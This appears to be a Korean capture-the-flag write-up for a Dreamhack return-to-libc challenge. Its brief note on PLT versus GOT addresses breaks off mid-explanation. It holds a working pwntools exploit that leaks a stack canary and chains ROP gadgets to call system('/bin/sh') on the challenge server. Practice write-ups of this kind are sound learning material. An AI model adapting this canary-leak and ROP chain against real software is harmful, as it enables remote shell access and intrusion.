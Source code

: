```

<img width="808" alt="image" src="https://github.com/juhyeongkim527/Dreamhack-Study/assets/138116436/e3685fef-de7d-4577-bd74-455409f1af62">

<img width="808" alt="image" src="https://github.com/juhyeongkim527/Dreamhack-Study/assets/138116436/46d612b5-166e-45a7-8484-66935ce10c4c">

<img width="821" alt="image" src="https://github.com/juhyeongkim527/Dreamhack-Study/assets/138116436/56db90ae-e728-411f-9b81-77fd84d50b04">

### 참고

<img width="833" alt="image" src="https://github.com/juhyeongkim527/Dreamhack-Study/assets/138116436/4bbcc1b2-3c08-4ae7-a54b-c466f7aeecc7">

`system()` 함수를 호출하기 위해 **PLT**주소가 아닌 **GOT** 주소나 **실제 라이브러리의 시스템 콜 주소**를 입력하면 어떻게 될까라는 의문이 생겼었다.  
의문에 대한 답을 먼저 얘기하자면 PLT 주소 이외에 GOT나 라이브러리의 함수 주소를 넣으면 실행을 할 수 없다.

1. GOT는

## 익스플로잇 코드
```
from pwn import *

context.arch = 'amd64'

p = remote('host3.dreamhack.games', 23240)

elf = ELF('rtl')

system_plt = elf.plt['system']
#system_plt = 0x601028
payload = b'a'*0x38

p.send(payload+b'a')
p.recvuntil(payload+b'a')

canary = b'\x00' + p.recvn(7)

pop_rdi_ret_gadget = 0x0000000000400853
binish = 0x400874
ret_gadget = 0x0000000000400285

payload += canary + b'a'*0x8 + p64(ret_gadget) + p64(pop_rdi_ret_gadget) + p64(binish) + p64(system_plt)
# payload += canary + b'a'*0x8 + p64(pop_rdi_ret_gadget) + p64(binish) + p64(system_plt)

p.send(payload)

p.interactive()
```

<img width="536" alt="image" src="https://github.com/juhyeongkim527/Dreamhack-Study/assets/138116436/b6817e70-2878-43f8-805c-43f31ebe0948">

<img width="544" alt="image" src="https://github.com/juhyeongkim527/Dreamhack-Study/assets/138116436/dc46899e-9cfe-4ac4-bc08-2745ca351f20">

<img width="543" alt="image" src="https://github.com/juhyeongkim527/Dreamhack-Study/assets/138116436/54bb151c-691c-4a85-b606-160a08af19af">

<img width="548" alt="image" src="https://github.com/juhyeongkim527/Dreamhack-Study/assets/138116436/ad7f0026-2593-48f6-a5b2-3956564534b4">

